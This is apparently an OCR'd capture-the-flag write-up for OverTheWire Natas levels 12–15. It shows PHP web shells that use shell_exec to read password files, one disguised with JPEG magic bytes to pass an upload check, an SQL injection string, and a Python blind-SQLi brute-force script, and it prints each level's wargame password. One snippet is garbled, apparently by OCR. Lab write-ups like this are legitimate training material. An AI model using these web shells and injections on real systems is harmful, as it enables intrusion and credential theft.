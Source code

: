 ```php
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
    }
} else {
?>
```
It doesn't check signature of file, so we try
```php
<?php
    echo shell_exec('cat /etc/natas_webpass/natas13')
?>
```
save natas12.php file, upload file and we got
```
username: natas13
password: jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY 
```

**[Natas13](http://natas13.natas.labs.overthewire.org)**  
We have source code, it's same Natas12 but it check signature of file, so we try
http://natas13.natas.labs.overthewire.org/index.php?a=cat%20/etc/natas_webpass/natas14
```php
shell = open('shell.php','wsshell.write('\xFF\xD8\xFF\xE0'<?php echo shell_exec($_GET["a"]); ?>')
shell.close()
```
save natas13.php file, upload file and we got
```
username: natas14
password: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1 
```

**[Natas14](http://natas14.natas.labs.overthewire.org)**  
It's simple SQL Injection, input
```sql
" or 1=1; #
```
We got
```
username: natas15
password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J 
```

**[Natas15](http://natas15.natas.labs.overthewire.org)**  
In source code, it return exists if execute query return number of rows > 0
```php
if(mysql_num_rows($res) > 0) {
        echo "This user exists.<br>";
    }
```
We can brute force password
```python
import requests
import string

url = 'http://natas15.natas.labs.overthewire.org/'
characters = string.ascii_letters + '0123456789'
filter = ''
for char in characters:
    myobj = {'username': 'natas16" and password like binary "%' + char + '%" #'}
    x = requests.post(url, data = myobj, auth=('natas15', 'AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J'))
    if ('exists' in x.text):
        filter = filter + char
print(filter)

```